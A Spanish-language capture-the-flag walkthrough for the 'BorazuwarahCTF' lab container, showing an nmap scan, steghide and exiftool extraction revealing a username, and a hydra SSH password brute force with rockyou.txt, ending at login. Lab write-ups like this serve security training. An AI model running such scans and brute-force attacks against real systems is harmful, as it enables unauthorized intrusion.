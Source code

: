 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/1.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](./images/2.png)



Nos vamos a la página web y nos sale :


![Img](./images/3.png)


Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](BLOG-GIT/images/4.png)


```
cat secreto.txt
```

![Img](BLOG-GIT/images/5.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```
![Img](BLOG-GIT/images/6.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Img](BLOG-GIT/images/7.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](BLOG-GIT/images/8.png)


Y ya estamos adentro. 
